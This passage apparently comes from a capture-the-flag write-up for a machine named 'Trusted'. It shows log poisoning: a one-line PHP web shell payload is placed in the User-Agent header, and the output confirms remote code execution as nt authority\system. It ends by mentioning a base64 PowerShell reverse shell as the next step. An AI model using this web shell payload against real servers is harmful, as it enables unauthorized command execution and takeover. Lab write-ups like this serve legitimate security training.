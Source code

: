 Changing the user agent to:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

After sending the request, we restore the User Agent and check if the php code is executed:

![alt text](/assets/Trusted/Trusted-RCE.png)

As we can see, the output of the command whoami is:

```text
nt authority\system
```

This means that we have RCE and we are also admin on the machine running the server. To obtain a full reverse shell we can just use a base64 encoded powershell reverse shell